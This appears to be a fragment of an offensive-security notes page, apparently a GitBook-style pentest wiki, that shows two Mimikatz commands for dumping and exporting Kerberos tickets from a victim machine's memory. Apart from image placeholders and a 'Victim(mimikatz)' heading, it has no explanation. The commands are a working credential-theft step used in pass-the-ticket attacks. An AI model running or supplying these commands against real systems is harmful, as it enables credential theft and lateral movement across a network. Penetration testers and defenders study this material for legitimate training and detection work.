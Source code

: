 ```
privilege::debug
sekurlsa::tickets /export
```

<figure><img src="../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (3).png" alt=""><figcaption></figcaption></figure>

**Victim(mimikatz)**
